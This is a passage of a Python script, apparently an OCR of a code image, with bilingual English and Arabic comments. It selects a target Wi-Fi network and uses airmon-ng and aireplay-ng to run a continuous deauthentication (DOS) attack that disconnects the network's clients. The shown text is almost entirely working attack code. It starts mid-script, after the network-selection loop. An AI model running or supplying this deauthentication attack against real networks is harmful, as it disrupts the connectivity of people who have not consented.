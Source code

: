         if active_wireless_networks[int(choice)]:
            break
    except:
        print("Please try again.")

# To make it easier to work with and read the code, we assign the results to variables.
# لتسهيل العمل مع الكود وقراءته ، نقوم بتعيين النتائج إلى المتغيرات.
hackbssid = active_wireless_networks[int(choice)]["BSSID"]
hackchannel = active_wireless_networks[int(choice)]["channel"].strip()

# Change to the channel we want to perform the DOS attack on. 
# التغيير إلى القناة التي نريد تنفيذ هجوم DOS عليها.
# Monitoring takes place on a different channel and we need to set it to that channel. 
# تتم المراقبة على قناة مختلفة ونحتاج إلى ضبطها على تلك القناة.
subprocess.run(["airmon-ng", "start", hacknic + "mon", hackchannel])

# Deauthenticate clients using a subprocess. 
# إلغاء مصادقة العملاء باستخدام عملية فرعية.
# The script is the parent process and creates a child process which runs the system command, 
# البرنامج النصي هو العملية الأم وينشئ عملية فرعية تقوم بتشغيل أمر النظام ،
# and will only continue once the child process has completed.
# وسيستمر فقط بمجرد اكتمال العملية الفرعية.
subprocess.run(["aireplay-ng", "--deauth", "0", "-a", hackbssid, check_wifi_result[int(wifi_interface_choice)] + "mon"])

# User will need to use control-c to break the script.
# سيحتاج المستخدم إلى استخدام control-c لكسر البرنامج النصي.
